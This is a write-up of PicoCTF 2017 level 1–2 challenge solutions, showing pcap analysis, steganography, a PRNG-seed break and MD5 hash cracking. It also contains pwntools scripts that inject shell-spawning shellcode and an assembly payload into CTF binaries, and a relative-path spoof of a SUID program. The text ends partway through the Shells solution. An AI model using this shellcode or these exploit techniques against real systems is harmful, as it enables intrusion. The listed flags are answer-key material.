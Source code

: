 
#+TITLE: PicoCTF 2017
#+OPTIONS:  toc:4 

#+BEGIN_EXPORT html
<link href="https://fonts.googleapis.com/css?family=Source+Code+Pro" rel="stylesheet"> 
<style type="text/css">
.h3, h3 {
    font-size: 25px;
    padding: 10px
}
.h4, h4 {
    font-size: 21px;
    padding: 22px
}

/* All levels of nav */
.bs-docs-sidebar .nav > li > a {
    display: block;
    padding: 4px 20px;
    font-size: 14px;
    font-weight: 500;
    color: #999;
}
.bs-docs-sidebar .nav > li > a:hover,
.bs-docs-sidebar .nav > li > a:focus {
    padding-left: 19px;
    color: #2bbc8a;
 text-decoration: none;
    background-color: transparent;
    border-left: 1px solid #2bbc8a;
 }
.bs-docs-sidebar .nav > .active > a,
.bs-docs-sidebar .nav > .active:hover > a,
.bs-docs-sidebar .nav > .active:focus > a {
    padding-left: 18px;
    font-weight: bold;
    color: #2bbc8a;
    background-color: transparent;
    border-left: 2px solid #2bbc8a;
 }
body {
color: #c9cacc;
background-color: #1d1f21;
font-family: "Source Code Pro" , "Menlo", "Meslo LG", monospace;
}
a {
	color: #2bbc8a;
	text-decoration: none;
}
a:focus, a:hover {
	color: #2bbc8a;
	text-decoration: underline;
}
pre {
	color: #d1d9e1;
	background-color: #212326;
	padding-left: 40px;
	padding-top: 20px;
	padding-bottom: 20px;
        border: 1px solid #212326;
font-family: "Source Code Pro" , "Menlo", "Meslo LG", monospace;
}
code {
	background-color: #212326;
}
footer {
	background-color: #212326;
}
</style>

#+END_EXPORT

* Level 1 
** Forensics
*** Digital Camouflage
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Digital-Camouflage][Digital Camouflage]]

#+BEGIN_QUOTE
We need to gain access to some routers. Let's try and see if we can find the password in the captured network data : [[file:./data.pcap][data.pcap]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
It looks like someone logged in with their password earlier. Where would log in data be located in a n etwork capture?
If you think you found the flag, but it doesn't work, consider that the data may be encrypted.
#+END_QUOTE

Solution : 
 
This Problem gives us a network capture and we need to analyse the files to get the password of a login.
Using Wireshark we can export all the files from the pcap file . 
Files > Export Objects > HTTP 
Gives a list of HTML which is present in the captured file . And one of the file contains the password which is is encrypted in base64.

main.html
#+BEGIN_EXAMPLE
userid=spiveyp&pswrd=S04xWjZQWFZ5OQ%3D%3D
#+END_EXAMPLE

%3d represent = in url
#+BEGIN_SRC shell
echo S04xWjZQWFZ5OQ== | base64 -d
#+END_SRC

Gives the flag !
#+BEGIN_EXAMPLE
KN1Z6PXVy9
#+END_EXAMPLE

*** Special Agent User

Link : [[https://2017game.picoctf.com/game/level-1/challenge/Special-Agent-User][Special Agent User]] 

#+BEGIN_QUOTE
We can get into the Administrator's computer with a browser exploit. But first, we need to figure out what browser they're using.
Perhaps this information is located in a network packet capture we took: [[file:./data1.pcap][data.pcap]]
Enter the browser and version as "BrowserName BrowserVersion". NOTE: We're just looking for up to 3 levels of subversions for
the browser version (ie. Version 1.2.3 for Version 1.2.3.4) and ignore any 0th subversions (ie. 1.2 for 1.2.0)
#+END_QUOTE

Hint :

#+BEGIN_QUOTE
Where can we find information on the browser in networking data? Maybe [[http://www.useragentstring.com./][try reading up on user-agent strings]]
#+END_QUOTE

Solution :
User agent tell the server the details of which broser and os is the user use
Running xxd 
#+BEGIN_SRC shell
xxd data.pcap | grep -A 10 User
#+END_SRC
There was many wget entries and one was
#+BEGIN_EXAMPLE
--
00003c90: 2f20 4854 5450 2f31 2e31 0d0a 5573 6572  / HTTP/1.1..User
00003ca0: 2d41 6765 6e74 3a20 4d6f 7a69 6c6c 612f  -Agent: Mozilla/
00003cb0: 352e 3020 2857 696e 646f 7773 204e 5420  5.0 (Windows NT 
00003cc0: 352e 3129 2041 7070 6c65 5765 624b 6974  5.1) AppleWebKit
00003cd0: 2f35 3337 2e33 3620 284b 4854 4d4c 2c20  /537.36 (KHTML, 
00003ce0: 6c69 6b65 2047 6563 6b6f 2920 4368 726f  like Gecko) Chro
00003cf0: 6d65 2f33 352e 302e 3231 3137 2e31 3537  me/35.0.2117.157
00003d00: 2053 6166 6172 692f 3533 372e 3336 0d0a   Safari/537.36..
00003d10: 4163 6365 7074 3a20 2a2f 2a0d 0a48 6f73  Accept: */*..Hos
00003d20: 743a 2031 302e 302e 302e 310d 0a43 6f6e  t: 10.0.0.1..Con
00003d30: 6e65 6374 696f 6e3a 204b 6565 702d 416c  nection: Keep-Al
--
#+END_EXAMPLE
Which tells that the browser is Chrome version 35.0.2117

** Binary Explitation
*** Bash Loop
Link:[[https://2017game.picoctf.com/game/level-1/challenge/Bash-Loop][bash loop]]

#+BEGIN_QUOTE
We found a program that is hiding a flag but requires you to guess the number it is thinking of. Chances are Linux has an easy
way to try all the numbers... Go to /problems/69a376443853a8d385877f60375188bf and try it out!
#+END_QUOTE

Solution :

The location contain two files .
#+BEGIN_EXAMPLE
-rwxr-sr-x 1 hacksports bash-loop_7 8216 Mar 31 08:01 bashloop
-r--r----- 1 hacksports bash-loop_7   33 Mar 31 08:01 flag
#+END_EXAMPLE

bashloop has SUID bit set , Running bashloop ,gives
#+BEGIN_EXAMPLE
What number am I thinking of? It is between 0 and 4096
#+END_EXAMPLE
So it takes a number between 0 and 4096 as input .
~./bashloop 0~
#+BEGIN_EXAMPLE
Nope. Pick another number between 0 and 4096
#+END_EXAMPLE
Scripting with bash
#+BEGIN_SRC sh
for i in {0..4096};do  ./bashloop $i ;done | grep -v Nope           
#+END_SRC
Gives the flag!
#+BEGIN_EXAMPLE
Yay! That's the number! Here be the flag: 249808e7eba907b7e323f4f2fff2406d
#+END_EXAMPLE

*** Just No
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Just-No][just no]]

#+BEGIN_QUOTE
A program at /problems/276fc27f3ef921f0e2f0f75ba95c9e60 has access to a flag but refuses to share it. Can you convince it otherwise?
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge.
Could you possibly spoof another auth file it looks at instead...?
#+END_QUOTE

Soution:
Listing the directory 
#+BEGIN_EXAMPLE
-rw-r--r-- 1 hacksports just-no_7    2 Mar 31 08:00 auth
-r--r----- 1 hacksports just-no_7   33 Mar 31 08:00 flag
-rwxr-sr-x 1 hacksports just-no_7 7800 Mar 31 08:00 justno
-rw-r--r-- 1 hacksports just-no_7  838 Mar 31 08:00 justno.c
#+END_EXAMPLE
the file auth contains no and justno is suid executable which can open flag

~justno.c~
#+BEGIN_SRC c
##include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
  if(authf == NULL){
    printf("could not find auth file in ../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if  (strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/276fc27f3ef921f0e2f0f75ba95c9e60/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
#+END_SRC

As the hint suggest the prblem is based on the relative path ,
vunarable code
#+BEGIN_EXAMPLE
FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
#+END_EXAMPLE

It opens the auth file relative to the position of execution, So we create the same directory structure in tmp and create a file auth with
yes in it and run the program from that place , Since relative path is taken for auth file, the file which we have created will be taken
and we will get the Flag !!

#+BEGIN_EXAMPLE
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 8661ca23ef68adc41d407817b8656dd0
#+END_EXAMPLE
** Reverse Engineering
*** Hex2Raw
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Hex2Raw][hex2raw]]

#+BEGIN_QUOTE
This program requires some unprintable characters as input... But how do you print unprintable characters? CLI yourself to 
/problems/c69bcda4ca5a28fd9d18790fc763db73 and turn that Hex2Raw!
#+END_QUOTE

Running hex2raw program gives
#+BEGIN_EXAMPLE
Give me this in raw form (0x41 -> 'A'):
416f1c7918f83a4f1922d86df5e78348

You gave me:

#+END_EXAMPLE
and promt for input , we just need to print this hex as charecters
#+BEGIN_SRC shell
python -c 'print "\x41\x6f\x1c\x79\x18\xf8\x3a\x4f\x19\x22\xd8\x6d\xf5\xe7\x83\x48"' | ./hex2raw
#+END_SRC

Gives the Flag!
#+BEGIN_EXAMPLE
416f1c7918f83a4f1922d86df5e78348

You gave me:
416f1c7918f83a4f1922d86df5e78348
Yay! That's what I wanted! Here be the flag:
#+END_EXAMPLE
*** Raw2Hex
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Raw2Hex][raw2hex]]

#+BEGIN_QUOTE
This program just prints a flag in raw form. All we need to do is convert the output to hex and we have it! CLI yourself to 
/problems/7ed72aec10a93d978ec3542055975d36 and turn that Raw2Hex!
#+END_QUOTE

Solution :

Running raw2hex give the flag we need to take the hex of it

#+BEGIN_SRC shell
./raw2hex  |  xxd
#+END_SRC
#+BEGIN_EXAMPLE
0000000: 5468 6520 666c 6167 2069 733a 233a 338f  The flag is:#:3.
0000010: 3052 fec7 5f00 9f24 85ac 5352            0R.._..$..SR
#+END_EXAMPLE

And the flag is the  ~233a338f3052fec75f009f2485ac5352~  hex

** Web Exploitation
*** What Is Web
Link : [[https://2017game.picoctf.com/game/level-1/challenge/What-Is-Web][what is web]]

#+BEGIN_QUOTE
Someone told me that some guy came up with the "World Wide Web", using "HTML" and "stuff". Can you help me figure out what that is?  [[http://shell2017.picoctf.com:4443/][webpage]]
#+END_QUOTE

Solution: 

The flag is placed in the html , css and javascript files of the webpage
html
#+BEGIN_EXAMPLE
 The first part of the flag (there are 3 parts) is 72b28b258d2 
#+END_EXAMPLE
css
#+BEGIN_EXAMPLE
The second part of the flag is b2ea021486f 
#+END_EXAMPLE
js 
#+BEGIN_EXAMPLE
The final part of the flag is ddd5020451d
#+END_EXAMPLE

flag : 72b28b258d2b2ea021486fddd5020451d
*** Lazy Dev
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Lazy-Dev][Lazy-Dev]] 

#+BEGIN_QUOTE
I really need to login to this [[http://shell2017.picoctf.com:37907/][website]], but the developer hasn't implemented login yet. Can you help?
#+END_QUOTE



Hint : 

#+BEGIN_QUOTE
Where does the password check actually occur?
Can you interact with the javascript directly?
#+END_QUOTE

Solution : 

the webpage  

[[file:./Level 1/screenshot_2017-09-04_12-38-07.png]]

source 

#+BEGIN_SRC html
<!DOCTYPE html>
<html lang="en">
<body>
    <h1>Enter the password</h1>
    <input id="password">
    <button type="button" onclick="process_password()">Submit</button>
    <p id="res"></p>

</body>
<script type="text/javascript" src="/static/client.js"></script>
</html>
#+END_SRC

JavaScript

#+BEGIN_SRC java
//Validate the password. TBD!
function validate(pword){
  //TODO: Implement me
  return false;
}

//Make an ajax request to the server
function make_ajax_req(input){
  var text_response;
  var http_req = new XMLHttpRequest();
  var params = "pword_valid=" + input.toString();
  http_req.open("POST", "login", true);
  http_req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_req.onreadystatechange = function() {//Call a function when the state changes.
  	if(http_req.readyState == 4 && http_req.status == 200) {
      document.getElementById("res").innerHTML = http_req.responseText;
    }
  }
  http_req.send(params);
}

//Called when the user submits the password
function process_password(){
  var pword = document.getElementById("password").value;
  var res = validate(pword);
  var server_res = make_ajax_req(res);
}
#+END_SRC

The funtion which validate the password is not implemented and it allways return zero . Using the console in Firefox we can sent js requests
. sending ~make_ajax_req()~ with true gives the flag 

[[file:./Level 1/screenshot_2017-09-04_16-10-28.png]]

* Level 2
** Forensics
*** Meta Find Me

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Meta-Find-Me][Meta-Find-Me]]

#+BEGIN_QUOTE
Find the location of the flag in the image: [[file:./image.jpg][image.jpg]] Note: Latitude and longitude values are in degrees with no degree symbols,
/direction letters, minutes, seconds, or periods. They should only be digits. The flag is not just a set of coordinates - if 
you think that, keep looking!
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
How can images store location data? Perhaps search for GPS info on photos.
#+END_QUOTE

Solution :

Running exiftool on the image gives

#+BEGIN_EXAMPLE
Comment                         : "Your flag is flag_2_meta_4_me_<lat>_<lon>_1c1f. Now find the GPS coordinates of this image! (Degrees only please)"

GPS Position                    : 7 deg 0' 0.00", 96 deg 0' 0.00"
#+END_EXAMPLE

The Comment and GPS Section gives the required flag

#+BEGIN_QUOTE
flag_2_meta_4_me_7_96_1c1f
#+END_QUOTE
*** Little School Bus
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Little-School-Bus][Little-School-Bus]] 

#+BEGIN_QUOTE
Can you help me find the data in this [[file:./littleschoolbus.bmp][littleschoolbus.bmp]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Look at least significant bit encoding!!
#+END_QUOTE

Solution :

As the Hint Suggest the Probelem is related to LSB Encoding , The left most digit in binary is called the LSB digit 

An image is constituent of pixel and each pixel contains 3 colors (RGB) with 8 bytes each so a color can have values from 0 - 256 , LSB
encoding is done by changing the LSB bit of the color , this slight variation is not notisable . So by changing the LSB bit we can hide
data inside a file .

#+BEGIN_SRC shell
xxd -b ./littleschoolbus.bmp | head -n 20
#+END_SRC

Gives ,

#+BEGIN_EXAMPLE
00000000: 01000010 01001101 11100010 01001011 00000010 00000000  BM.K..
00000006: 00000000 00000000 00000000 00000000 00110110 00000000  ....6.
0000000c: 00000000 00000000 00101000 00000000 00000000 00000000  ..(...
00000012: 11111100 00000000 00000000 00000000 11000111 00000000  ......
00000018: 00000000 00000000 00000001 00000000 00011000 00000000  ......
0000001e: 00000000 00000000 00000000 00000000 10101100 01001011  .....K
00000024: 00000010 00000000 00000000 00000000 00000000 00000000  ......
0000002a: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000030: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
0000004e: 11111110 11111111 11111111 11111110 11111110 11111111  ......
00000054: 11111111 11111111 11111110 11111111 11111111 11111111  ......
0000005a: 11111111 11111110 11111111 11111111 11111110 11111111  ......
00000060: 11111111 11111111 11111110 11111110 11111111 11111110  ......
00000066: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000006c: 11111110 11111111 11111110 11111111 11111111 11111110  ......
00000072: 11111111 11111111 11111110 11111111 11111110 11111111  ......
#+END_EXAMPLE

Taking the LSB bit after the many zero 
#+BEGIN_EXAMPLE
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
#+END_EXAMPLE

8 bit gives 
#+BEGIN_EXAMPLE
01100110 01101100
#+END_EXAMPLE
Which in ascii is ~fl~ ?

Now we script . 
#+BEGIN_SRC python :results output org drawer
binary_data = open("littleschoolbus.bmp","rb") # Open the file binary mode
binary_data.seek(54)  #seek to 54 bytes these bytes does not contain any data
data = binary_data.read() # read the binary data
l = [] 
for i in data:
    l.append(bin(i)[-1])  #make a list of LSB bit
for i in range(0,500,8):
    print(chr(int(''.join(l[i:i+8]),2)),end='') # print the charecter

#+END_SRC

#+RESULTS:

Which gives the flag !! 

#+BEGIN_QUOTE
flag{remember_kids_protect_your_headers_afb3}
#+END_QUOTE

Footnote :

1. [[http://www.aaronmiller.in/thesis/][LSB]]
2. [[http://www.devdungeon.com/content/working-binary-data-python][Python Binay]]
*** Missing Identity

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Missing-Identity][Missing-Identity]]

#+BEGIN_QUOTE
Turns out, some of the files back from Master Challenge 1 were corrupted. Restore this one [[file:./file/file][file]]  and find the flag 
Update 16:26 EST 1 Apr If you feel that you are close, make a private piazza post with what you have, and an admin will help out. 
The flag starts with the character z.
#+END_QUOTE

Hint : 

#+BEGIN_QUOTE
What file is this?
What do you expect to find in the file structure?
All characters in the file are lower case or numberical. There will not be any zeros.
#+END_QUOTE

Solution :

Running file command gives it is data ,
#+BEGIN_SRC 
xxd file 
#+END_SRC

#+BEGIN_EXAMPLE
00000000: 5858 5858 5858 0000 0800 2344 7f4a 6a58  XXXXXX....#D.JjX
00000010: bd98 b48c 0000 a58c 0000 0800 0000 666c  ..............fl
00000020: 6167 2e70 6e67 004e 40b1 bf89 504e 470d  ag.png.N@...PNG.
00000030: 0a1a 0a00 0000 0d49 4844 5200 0002 7300  .......IHDR...s.
00000040: 0000 3c08 0200 0000 8243 abc9 0000 8c6c  ..<......C.....l
00000050: 4944 4154 789c dcfd 5793 ad5b 771e 868d  IDATx...W..[w...
00000060: 31d3 1b56 eab8 e3d9 277e 1120 1820 4022  1..V....'~. . @"
00000070: 4c52 8698 4452 b264 89a6 252b dcb8 5c2e  LR..DR.d..%+..\.
00000080: 5fb9 6cdf e80f f846 572e 5fd8 55ae 7239  _.l....FW._.U.r9
00000090: 48b6 cb14 254b b224 a254 2241 db22 0951  H...%K.$.T"A.".Q

....

00068ec0: 00a4 8100 0000 0066 6c61 672e 706e 6750  .......flag.pngP
00068ed0: 4b01 0214 0314 0000 0008 0023 447f 4a50  K..........#D.JP
00068ee0: 9769 035a ed00 0058 ed00 000f 0000 0000  .i.Z...X........
00068ef0: 0000 0000 0000 00a4 81da 8c00 006e 6f74  .............not
00068f00: 7468 6566 6c61 6731 2e70 6e67 504b 0102  theflag1.pngPK..
00068f10: 1403 1400 0000 0800 2344 7f4a 4773 f028  ........#D.JGs.(
00068f20: cfd4 0000 bbd4 0000 0f00 0000 0000 0000  ................
00068f30: 0000 0000 a481 617a 0100 6e6f 7474 6865  ......az..notthe
00068f40: 666c 6167 322e 706e 6750 4b01 0214 0314  flag2.pngPK.....
00068f50: 0000 0008 0023 447f 4a51 a5e2 980d ea00  .....#D.JQ......
00068f60: 00fd e900 000f 0000 0000 0000 0000 0000  ................
00068f70: 00a4 815d 4f02 006e 6f74 7468 6566 6c61  ...]O..notthefla
00068f80: 6733 2e70 6e67 504b 0102 1403 1400 0000  g3.pngPK........
00068f90: 0800 2344 7f4a e1ca f91d 72ba 0000 63ba  ..#D.J....r...c.
00068fa0: 0000 0f00 0000 0000 0000 0000 0000 a481  ................
00068fb0: 9739 0300 6e6f 7474 6865 666c 6167 342e  .9..nottheflag4.
00068fc0: 706e 6750 4b01 0214 0314 0000 0008 0023  pngPK..........#
00068fd0: 447f 4a6c fcad 133b e600 0027 e600 000f  D.Jl...;...'....
00068fe0: 0000 0000 0000 0000 0000 00a4 8136 f403  .............6..
00068ff0: 006e 6f74 7468 6566 6c61 6735 2e70 6e67  .nottheflag5.png
00069000: 504b 0102 1403 1400 0000 0800 2344 7f4a  PK..........#D.J
00069010: 7663 94c0 f5c1 0000 19c2 0000 0f00 0000  vc..............
00069020: 0000 0000 0000 0000 a481 9eda 0400 6e6f  ..............no
00069030: 7474 6865 666c 6167 362e 706e 6750 4b01  ttheflag6.pngPK.
00069040: 0214 0314 0000 0008 0023 447f 4aa7 207a  .........#D.J. z
00069050: 1eac f100 0098 f100 000f 0000 0000 0000  ................
00069060: 0000 0000 00a4 81c0 9c05 006e 6f74 7468  ...........notth
00069070: 6566 6c61 6737 2e70 6e67 504b 0506 0000  eflag7.pngPK....
00069080: 0000 0800 0800 e101 0000 998e 0600 0000  ................
#+END_EXAMPLE

The intersting part is in the begenning XXXXXX  suggest that it is related to magic bit . these bytes specifies what format the file is . 
Every file format has a uniq bit which specifes that file format , program use there to identify file format . the end of xxd output 
shows many file name which gives a hint that is a compressed file . ZIP has a four byte magic bit 

#+BEGIN_QUOTE
Zip Archive   "PK.."    0x50 0x4B 0x03 0x04
#+END_QUOTE

Changing the hex with hex editor 

#+BEGIN_EXAMPLE
00000000: 504b 0304 0000 0000 0800 2344 7f4a 6a58  PK........#D.JjX
00000010: bd98 b48c 0000 a58c 0000 0800 0000 666c  ..............fl
00000020: 6167 2e70 6e67 004e 40b1 bf89 504e 470d  ag.png.N@...PNG.
00000030: 0a1a 0a00 0000 0d49 4844 5200 0002 7300  .......IHDR...s.
00000040: 0000 3c08 0200 0000 8243 abc9 0000 8c6c  ..<......C.....l
00000050: 4944 4154 789c dcfd 5793 ad5b 771e 868d  IDATx...W..[w...
00000060: 31d3 1b56 eab8 e3d9 277e 1120 1820 4022  1..V....'~. . @"
00000070: 4c52 8698 4452 b264 89a6 252b dcb8 5c2e  LR..DR.d..%+..\.
00000080: 5fb9 6cdf e80f f846 572e 5fd8 55ae 7239  _.l....FW._.U.r9
00000090: 48b6 cb14 254b b224 a254 2241 db22 0951  H...%K.$.T"A.".Q
#+END_EXAMPLE

unzip the file the flag.png gives the flag 

[[file:./file/flag.png]]


Footnote :
https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
** Cryptography
*** SoRandom
:PROPERTIES:
:ID:       fe8713e5-ea3b-4bcc-afd9-5f062b4673df
:END:
Link : [[https://2017game.picoctf.com/game/level-2/challenge/SoRandom][SoRandom]]

#+BEGIN_QUOTE
We found [[file:./sorandom.py][sorandom.py]] running at shell2017.picoctf.com:27691. It seems to be outputting the flag but randomizing all the characters first. 
Is there anyway to get back the original flag?
#+END_QUOTE

Hint: 
#+BEGIN_QUOTE
How random can computers be?
#+END_QUOTE

Solution : 

This Given Python script
#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random,string

flag = "FLAG:"+open("flag", "r").read()[:-1]
encflag = ""
random.seed("random")
for c in flag:
  if c.islower():
    #rotate number around alphabet a random amount
    encflag += chr((ord(c)-ord('a')+random.randrange(0,26))%26 + ord('a'))
  elif c.isupper():
    encflag += chr((ord(c)-ord('A')+random.randrange(0,26))%26 + ord('A'))
  elif c.isdigit():
    encflag += chr((ord(c)-ord('0')+random.randrange(0,10))%10 + ord('0'))
  else:
    encflag += c
print "Unguessably Randomized Flag: "+encflag

#+END_SRC

Connecting to the server gives

#+BEGIN_QUOTE
Unguessably Randomized Flag: BNZQ:20380043pc5p8u861tcy650q8xn8mf5d
#+END_QUOTE

Analysing the python script tells us that it uses the random python module to generate random digit to rotate the input, the seed for the
radom generator is "random" . But this random generator is not completly random decause with the knowlage of the seed we can predict the 
radom number generated in i th iteration of the funtion .  

Creating  a scipt to break this encryption 

#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random
import string

flag = ""
encflag = "BNZQ20380043pc5p8u861tcy650q8xn8mf5d"


while len(flag) != len(encflag):
    random.seed("random")
    for i in range(len(flag)):
        random.randrange(0, 6)
    if encflag[len(flag)].isdigit():
        random_digit = random.randrange(0, 10)
    else:
        random_digit = random.randrange(0, 26)

    for c in list(string.ascii_letters) + list("0987654321"):
        if c.islower():
            # rotate number around alphabet a random amount
            cypher = chr((ord(c) - ord('a') + random_digit) % 26 + ord('a'))
        elif c.isupper():
            cypher = chr((ord(c) - ord('A') + random_digit) % 26 + ord('A'))
        elif c.isdigit():
            cypher = chr((ord(c) - ord('0') + random_digit) % 10 + ord('0'))
        else:
            cypher = c
        if cypher == encflag[len(flag)]:
            flag = flag + c
            break

    print(flag)
#+END_SRC

Which gives the flag !
#+BEGIN_QUOTE
FLAG:96109120ba8d1c844afe294c3cd1eb4c
#+END_QUOTE
*** LeakedHashes
Link : [[https://2017game.picoctf.com/game/level-2/challenge/LeakedHashes][LeakedHashes]]

#+BEGIN_QUOTE
Someone got hacked! Check out some service's password hashes that were leaked at [[file:./hashdump.txt][hashdump.txt]] Do you think they chose strong passwords?  
We should check... The service is running at shell2017.picoctf.com:3815!
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
See if you can crack any of the login credentials and then connect to the service as one of the users. What's the chance these hashes 
have actually already been broken by someone else? Are there websites that host those cracked hashes? Connect from the shell with nc.
#+END_QUOTE

Solution : 

We can crack this md5 hashes with online services  https://crackstation.net/ , This site allows of cracking of 20 entries 


#+BEGIN_QUOTE
christene:89689941d40794e311ef8bc7061b9944    : 7h1ck
#+END_QUOTE

After cracking the hash just login with the username and password to get the flag

#+BEGIN_QUOTE
flag is 4f36a002cc953e6567a878758abc8cf9
#+END_QUOTE
** Binary Exploitation
*** Shellz

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shellz][Shellz]]

#+BEGIN_QUOTE
You no longer have an easy thing to call, but you have more space. Program: [[file:./shellz][shellz!]]  [[file:./shellz.c][Source]] . Connect on shell2017.picoctf.com:49324.
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
There is a bunch of preexisting shellcode already out there!
#+END_QUOTE

Solution :

The program reads 40 bytes and executes these binary , So we need to inject shell code of length less than 40 bytes

This is a shell code from [[https://www.exploit-db.com/exploits/36395/][explit-db]]
#+BEGIN_QUOTE
"\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad"
"\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd"
"\x80\x96\xcd\x80"
#+END_QUOTE

Exploit Code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "49324"

#shellcode which spawn shell
shellcode = "\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80\x96\xcd\x80"

io = remote(host, port)  # Connect to the server
io.recvuntil("Give me 40 bytes:\n")  
io.sendline(shellcode)  # Sends the shellcode
io.sendline('cat flag.txt')
print "Flag : ",
print(io.readline())
io.close()

#+END_SRC

Which Gives the Flag !
#+BEGIN_QUOTE
51e2978e4e59013145c2613f01185802
#+END_QUOTE

*** Shells

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shells][shells]]

How much can a couple bytes do? Use [[file:./shells][shells!]] [[file:./shells.c][Source]] . Connect on shell2017.picoctf.com:40976

Hint :
#+BEGIN_QUOTE
Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag
#+END_QUOTE

Solution :

We have to write basic shell code to call win funtion 

Exploit code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "40976"

context(arch="i386", os='linux')

payload = '''
/* call vuln funtion */
mov eax, 0x08048540
call eax 
'''


io = remote(host, port)
io.recvuntil("Give me 10 bytes:")
io.sendline(asm(payload))
print(io.readall())
io.close()

#+END_SRC

which gives the flag!

#+BEGIN_QUOTE
